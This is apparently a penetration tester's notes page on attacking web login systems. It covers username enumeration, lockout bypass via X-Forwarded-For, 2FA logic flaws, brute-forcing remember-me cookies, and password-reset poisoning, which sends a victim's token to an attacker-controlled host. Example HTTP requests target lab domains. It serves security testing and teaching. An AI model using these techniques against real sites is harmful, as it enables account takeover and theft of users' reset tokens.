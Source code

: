 ```yaml
---
title: "Authentication"
weight: 2
---
```


# Authentication

## Usernames enumeration

Test in every features that interact with user account. E.g. login, password recovery.

**Default username**

```sh
admin
administrator
firstname.lastname@somecompany.com
```

***

**Regisitration form**&#x20;

Create account and see if there's error like "account already exists".

***

**Comparing responses**

Use a valid user and an invalid user (and incorrect password). One character out of place makes the messages distinct, even if not visible on the page.

{{< hint style=tips >}}
**Tip**: Use "Grep - match" in Burp Intruder to fetch the error message
{{< /hint >}}

***

**Account locking**

Try 3/5 login. If the account is locked, it could mean that there is.

***

**Response times**

A website may only check the password if the username is valid. So, entering an excessively long password causes a noticeable delay.

## Passwords

[password-cracking.md](../../iv-miscellaneous/password-cracking.md "mention")

## Account locking

**Guess password with locked account**&#x20;

With your account locked, send a request with an incorrect password and another with a correct password. Is the response different?

***

**IP blocked bypass**

* The failed attempts counter resets if the IP owner logs in successfully. (Make sure that concurrent requests is set to 1)&#x20;
* Try to bypass by adding `X-Forwarded-For` header

***

**With password change**

See if you can change the password of an arbitrary user. E.g. look for a hidden username paramer (control it). Brute-force password when you enter your current password.

{{< hint style=tips >}}
**Tip**: use your account and notice different behavior.

* current password: wrong, new-password-1=XXX, new-password-2=XXX
* current password: wrong, new-password-1=XXX, new-password-2=YYY
* current password: \<right>, new-password-1=XXX, new-password-2=XXX
* current password: \<right>, new-password-1=XXX, new-password-2=YYY
{{< /hint >}}

## 2FA <a href="#bypassing-two-factor-authentication" id="bypassing-two-factor-authentication"></a>

* **Brute-force OTP**
* **Bypassing two-factor authentication**&#x20;

Check if you can directly skip to "logged-in" pages.

* **Flawed logic**

```http
# 1 step - (REQUEST) Normal login with attacker account
POST /login-steps/first HTTP/1.1
Host: vulnerable-website.com
[...]

username=attacker&password=qwerty
```

```http
# 1 step - (RESPONSE) The server sets cookie
HTTP/1.1 200 OK
Set-Cookie: account=attacker
```

```http
# 2 step - request two-factor
GET /login-steps/second HTTP/1.1
Cookie: account=attacker
```

```http
# 3 step - submit the two-factor code with victim cookie
POST /login-steps/second HTTP/1.1
Host: vulnerable-website.com
Cookie: account=victim-user
[...]

verification-code=123456
```

## Remember me option

* **Study your cookie and deduce how it is generated -** Sometimes this cookie is hashed or encoded (e.g. base64)
* **Brute-force other users' cookies to gain access to their accounts**

## Password reset

**Control username parameter**

After you receive an email with the URL to reset your password, see if you can control username parameter.

```http
POST /forgot-pwd?temp-token=xxx HTTP/2
[...]

user=<victim>&new-pwd-1=<whatever>&new-pwd-2=<whatever>&token=xxx
```

***

**Resetting passwords using a URL (static token)**

Poor implementation can use guessable parameter: E.g. `http://vulnerable-website.com/reset-password?user=victim-user`

***

**Steal another user's token (for dynamic token)**

Add the `X-Forwarded-Host` header and see if it allows you to control the link generated by the app. This way, you can insert your website's URL so that when the user clicks on the link, they are directed to `http://your.website.com/reset-password?token=impredictabletoken`.

```http
POST /forgot-password HTTP/2
Host: 0ad400fb039bb5ea816cac4d00be00a8.web-security-academy.net
X-Forwarded-Host: your.website.com

username=lebron
```
